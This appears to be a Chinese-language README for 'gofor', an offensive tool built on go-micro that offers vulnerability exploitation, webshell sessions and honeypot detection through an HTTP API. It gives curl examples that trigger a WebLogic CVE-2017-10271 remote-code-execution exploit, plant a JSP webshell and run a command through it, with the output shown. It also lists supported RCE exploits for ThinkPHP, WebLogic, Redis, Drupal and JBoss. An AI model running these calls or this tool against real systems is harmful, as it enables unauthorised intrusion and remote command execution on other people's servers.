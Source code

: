 # gofor
一款集漏洞探测、攻击，Session会话，蜜罐识别等功能于一身的软件，基于go-micro微服务框架并对外提供统一HTTP API网关接口服务

## HTTP API Gateway
```shell
./api-srv
```

## Service Install(Optional)
**Exploit**
```
./srv-exploit
```
**Webshell**
```webshell
./srv-webshell
```

# Example
[*] CVE-2017-10271 Weblogic RCE 攻击例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://x.x.x.x:7001","cve":"CVE-2017-10271"}' http://127.0.0.1:8888/exploit/ExploitServiceExt/ExploitWithAttack
```
`{"cve":"CVE-2017-10271","tunnel":"192.168.27.129:38533/wls-wsat/ant.jsp"}`

[*] php webshell调用例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://192.168.27.129:38533/wls-wsat/ant.jsp","language":"jsp","cmd":"pwd"}' http://127.0.0.1:8888/webshell/WebshellServiceExt/RunCmdWithOutput
```
`{"output":"/root/Oracle/Middleware/user_projects/domains/base_domain"}`


# 当前支持漏洞列表
| id | 漏洞名 |
|--|--|
| VUL-2021-04271  | Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability |
| VUL-2021-04272  | ThinkPHP5 5.0.23 Remote Code Execution Vulnerability |
| CVE-2017-10271  | Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞 |
| VUL-2021-05081  | Redis Unauthorized Vulnerability 漏洞 |
| CVE-2018-7600   | Drupal Drupalgeddon 2 Remote Code Execution Vulnerability |
| CVE-2017-12149  | JBoss 5.x/6.x 反序列化漏洞 |
